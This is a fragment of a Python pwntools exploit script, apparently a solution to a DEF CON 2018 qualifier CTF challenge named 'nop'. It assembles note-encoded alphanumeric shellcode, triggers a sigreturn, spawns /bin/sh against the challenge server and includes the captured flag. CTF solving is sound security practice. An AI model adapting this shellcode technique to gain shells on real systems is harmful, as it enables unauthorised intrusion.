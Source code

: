 ```python
  # notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]

  # stack for ss
  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  set_esi_2b(notes)
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]

  # stack for nulls
  for x in range(5):
    notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
    notes += ["F6", "F6"]*2 # inc esi; ss inc esi; ss
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]

  # set eax to 0x77 for sigreturn syscall
  notes += ["B5", "A9", "B9"] # inc edx; xor eax,0x39423941
  notes += ["B5", "B9", "B9"]  # inc edx; xor eax,0x39423942
  notes += ["G6", "G6"] * 4 # inc edi; ss inc edi; ss
  notes += ["A2", "G9"] # inc ecx; xor al,BYTE PTR [edi+0x39]

  payload = ""
  for n in notes:

    payload += note_lookup[n]

  # convert notes to frequency and pad so int 0x80 is at the right offset
  payload = payload + note_lookup["A6"]*((0x652-len(payload))/2)

  # append /bin/sh to be at a known location
  payload += p16(0xffff) + "\x01\x01\x01" + "/bin/sh\x00"*40
  p.sendline(payload + p16(0))
  p.interactive()

  # cat flag
  # OOO{1f_U_Ar3_r34d1n6_7h15_y0u_4r3_7h3_m0z4rT_0f_1nf053c_Ch33rs2MP!}

if __name__ == "__main__":
  name = "./nop"
  binary = ELF(name)

  context.terminal=["tmux", "sp", "-h"]
  context.arch = "i386"

  if len(sys.argv) > 1:
    p = remote("4e6b5b46.quals2018.oooverflow.io", 31337)
    do_pow(p)

  else:
    p = process([name], env={})
    gdb.attach(p, """
    c
    """)

  exploit()
```
